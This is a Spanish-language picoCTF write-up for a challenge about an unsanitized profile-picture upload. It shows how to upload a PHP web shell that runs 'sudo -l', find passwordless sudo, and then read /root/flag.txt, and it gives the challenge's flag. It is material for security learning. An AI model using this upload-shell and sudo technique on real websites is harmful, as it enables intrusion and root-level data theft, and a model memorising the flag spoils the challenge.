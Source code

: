 ***
### Descripción:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.
***

### Pistas: 
```
1.- File upload was not sanitized
2.- Whenever you get a shell on a remote machine, check `sudo -l`
```

### Solución:
- **Al entrar en la pagina vemos que solo acepta archivos con la extensión .php, por lo cual crearemos un archivo con esa extensión.**
```
estefania@estefania-IdeaPad-3-14ALC6:~$ nano shell.php
```
- **Y le colocaremos lo siguiente:**
```bash
<?php echo exec("sudo -l");?>
```
- **Lo subimos a la página, y nos salta el siguiente mensaje.**
  `The file shell.php has been uploaded Path: uploads/shell.php`
- **Nos dirigimos al archivo desde la liga de la pagina:**
  `http://standard-pizzas.picoctf.net:59782/uploads/shell.php/`
- **Y saldrá el siguiente mensaje:**
  `(ALL) NOPASSWD: ALL`
- **Con esto ahora sabemos que no se cuenta con ninguna contraseña y la seguridad es muy mala, por lo que modificamos el archivo que hicimos con el siguiente texto:**
```bash 
<?php echo exec("sudo cat /root/flag.txt");?>
```
- **Lo subimos nuevamente, y nos dirigimos nuevamente a la liga /uploads/shell.php/, y nos aparecera la bandera.**
### Bandera:
```
picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}
```
